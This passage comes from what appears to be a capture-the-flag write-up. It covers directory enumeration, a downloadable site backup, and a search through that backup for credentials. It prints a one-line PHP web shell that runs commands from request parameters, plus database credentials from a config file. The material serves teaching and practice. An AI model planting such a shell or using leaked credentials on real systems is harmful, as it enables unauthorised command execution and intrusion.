     /index.php (Status: 302)
    /backup (Status: 301)
    ===============================================================
    2021/01/16 07:25:32 Finished
    ===============================================================



#### Backup

`/backup` is directory-listable, serving a single file, `a.tar.gz`:

![](/img/image-20210116072744638.png)

The archive contains a backup for the website. The source code shows the
root folder contains an interesting file, `.sh.php`:



    <?php system($_REQUEST['cmd']); ?>



This file isn't on the host anymore, but perhaps was put up there when
the box was compromised.

I spent far too long looking for a config file that would contain the
password. I found a password for the database in
`includes/config.inc.php`:



    // Database
      define('DB_TYPE', 'mysql');
      define('DB_SERVER', 'localhost');
      define('DB_USERNAME', 'root');
      define('DB_PASSWORD', 'changethis');
      define('DB_DATABASE', 'ecom');
      define('DB_TABLE_PREFIX', 'lc_');
      define('DB_CONNECTION_CHARSET', 'utf8');
      define('DB_PERSISTENT_CONNECTIONS', 'false');



The password "changethis" could very well be wrong in this case. It
certainly doesn't work to get into the admin panel.

Eventually some recursive `grep` found this in `shop/admin/login.php`:
